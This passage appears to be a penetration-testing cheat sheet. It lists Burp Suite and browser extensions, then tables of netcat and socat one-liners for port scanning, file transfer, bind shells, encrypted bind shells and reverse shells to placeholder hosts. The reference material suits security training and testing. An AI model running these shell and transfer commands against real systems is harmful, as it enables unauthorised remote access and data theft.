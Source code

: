 - [Swagger-EZ](https://github.com/RhinoSecurityLabs/Swagger-EZ)
- [Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100)
- [Turbo Intruder](https://github.com/PortSwigger/turbo-intruder)
- [HTTP Request Smuggler](https://github.com/PortSwigger/http-request-smuggler)
- [BurpCustomizer](https://github.com/CoreyD97/BurpCustomizer)
- [Burp Bounty](https://burpbounty.net/)

**Browser extensions**
- [Trufflehog Chrome Extension](https://github.com/trufflesecurity/Trufflehog-Chrome-Extension)
- [Wappalyzer](https://www.wappalyzer.com/)
- [DotGit](https://github.com/davtur19/DotGit)
- [Cookie-Editor](https://cookie-editor.cgagnier.ca/)
- [Shodan for Chrome](https://chrome.google.com/webstore/detail/shodan/jjalcfnidlmpjhdfepjhjbhnhkbgleap) and [for Firefox](https://addons.mozilla.org/en-US/firefox/addon/shodan_io/)
- If you are using FireFox, you could use [FoxyProxy](https://getfoxyproxy.org/)


## Netcat

**Misc Commands**
```
nc -nv <IP> <port>                                                       Connect to a TCP port
nc -nlvp <port>                                                          Set up a listener
nc -nv <IP> <port>                                                       Connect to a listener
nc -nlvp <port> > incoming.exe                                           Receive a file
nc -nv <IP> <port> < /usr/share/windows-resources/binaries/wget.exe      Transfer a file
nc -nlvp <port> -e cmd.exe                                               Set up a bind shell
nc -nv <IP> <port> -e /bin/bash                                          Send a reverse shell
```

**Port Scanning**
```
nc -nvv -w 1 -z <IP> <PORT-RANGE>                        Use netcat to perform a TCP port scan
nc -nv -u -z -w 1 <IP> <PORT-RANGE>                      Use netcat to perform an UDP port scan
```

## Socat

**Misc Commands**
```
socat - TCP4:<remote server's ip address>:80                                    Connect to a remote server on port 80
socat TCP4-LISTEN:<PORT> STDOUT                                                 Create a listener
socat -d -d TCP4-LISTEN:<PORT> STDOUT                                           Create a listener, -d -d for more verbosity
socat TCP4-LISTEN:<PORT>,fork file:secret.txt                                   Transfer a file
socat TCP4:<IP>:<PORT> file:received_secret.txt,create                          Receive a file
socat TCP4:<IP>:<PORT> EXEC:/bin/bash                                           Send a reverse shell
socat OPENSSL-LISTEN:<PORT>,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash    Create an encrypted bind shell
socat - OPENSSL:<IP>:<PORT>,verify=0                                            Connect to an encrypted bind shell
```
